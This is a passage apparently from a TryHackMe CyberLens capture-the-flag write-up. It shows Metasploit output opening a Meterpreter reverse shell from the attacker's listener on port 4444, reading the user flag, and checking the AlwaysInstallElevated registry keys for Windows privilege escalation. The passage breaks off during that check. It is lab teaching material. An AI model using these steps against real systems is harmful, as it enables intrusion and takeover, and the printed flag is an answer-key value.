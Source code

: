   ```
  [*] Command Stager progress - 100.00% done (98798/98798 bytes)
  [*] Sending stage (177734 bytes) to 10.10.149.152
  [*] Meterpreter session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.149.152:49860) at 2025-06-08 19:43:28 +0100
  
  meterpreter > shell
  Process 1424 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.17763.1821]
  (c) 2018 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami
  cyberlens\cyberlens
  ```

---

## 🧍 User Privilege Escalation

- Just read the first flag.

  ```
  C:\Users\CyberLens\Desktop>dir
  dir
   Volume in drive C has no label.
   Volume Serial Number is A8A4-C362
  
   Directory of C:\Users\CyberLens\Desktop
  
  06/06/2023  07:53 PM    <DIR>          .
  06/06/2023  07:53 PM    <DIR>          ..
  06/21/2016  03:36 PM               527 EC2 Feedback.website
  06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
  06/06/2023  07:54 PM                25 user.txt
                 3 File(s)          1,106 bytes
                 2 Dir(s)  14,941,790,208 bytes free
  
  C:\Users\CyberLens\Desktop>type user.txt
  type user.txt
  THM{T1k4-CV3-f0r-7h3-w1n}
  ```
  
- Moving to root now. Or should I say Administrator lol.

---

## 👑 Root Privilege Escalation

- After enumerating for a while I found a way to Administrator through `AlwaysInstallElevated`.

  ```
  C:\Users\CyberLens\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  
  HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
      AlwaysInstallElevated    REG_DWORD    0x1
  
  
  C:\Users\CyberLens\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  
  HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
  ```